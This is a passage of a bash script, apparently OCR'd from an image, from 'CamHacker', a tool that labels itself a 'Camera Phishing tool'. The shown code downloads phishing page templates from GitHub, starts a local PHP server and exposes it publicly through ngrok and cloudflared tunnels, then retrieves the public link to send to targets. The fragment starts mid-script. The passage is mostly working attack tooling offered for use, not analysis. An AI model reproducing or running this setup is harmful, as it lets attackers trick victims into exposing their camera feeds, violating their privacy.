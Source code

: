 $red[Version]    ${cyan} :[1.2.5]
$red[Description]${cyan} :[Camera Phishing tool]
$red[Author]     ${cyan} :[KasRoudra]
$red[Github]     ${cyan} :[https://github.com/KasRoudra] 
$red[Messenger]  ${cyan} :[https://m.me/KasRoudra]
$red[Email]      ${cyan} :[kasroudrakrd@gmail.com]"
printf "${cyan}\nCam${nc}@${cyan}Hacker ${red}$ ${nc}"
read about
    elif echo $option | grep -q "m"; then
        xdg-open "https://github.com/KasRoudra/KasRoudra#My-Best-Works"
    elif echo $option | grep -q "0"; then
        exit 0
    else
        echo -e "\n${error}Invalid input!\007"
        sleep 1
    fi
done
cd $cwd
if [ -e websites.zip ];then
unzip websites.zip > /dev/null 2>&1
rm -rf websites.zip
fi
if ! [ -d $dir ];then
mkdir $dir
cd $dir
netcheck
wget -q --show-progress "https://github.com/KasRoudra/files/raw/main/${dir}.zip"
unzip ${dir}.zip > /dev/null 2>&1
rm -rf ${dir}.zip
else
cd $dir
fi 

# Hotspot required for termux
if $termux; then
echo -e "\n${info}If you haven't turned on hotspot, please enable it!"
sleep 3
fi
echo -e "\n${info}Starting php server at localhost:7777....\n"
netcheck
php -S 127.0.0.1:7777 > /dev/null 2>&1 &
sleep 2
echo -e "${info}Starting tunnelers......\n"
if [ -e "$HOME/.cffolder/log.txt" ]; then
rm -rf "$HOME/.cffolder/log.txt"
fi
netcheck
cd $HOME/.ngrokfolder && ./ngrok http 127.0.0.1:7777 > /dev/null 2>&1 &
if $termux; then
cd $HOME/.cffolder && termux-chroot ./cloudflared tunnel -url "127.0.0.1:7777" --logfile "log.txt" > /dev/null 2>&1 &
else
cd $HOME/.cffolder && ./cloudflared tunnel -url "127.0.0.1:7777" --logfile "log.txt" > /dev/null 2>&1 &
fi
sleep 8
ngroklink=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[-0-9a-z]*\.ngrok.io")
if (echo "$ngroklink" | grep -q "ngrok"); then
ngrokcheck=true
else
ngrokcheck=false
fi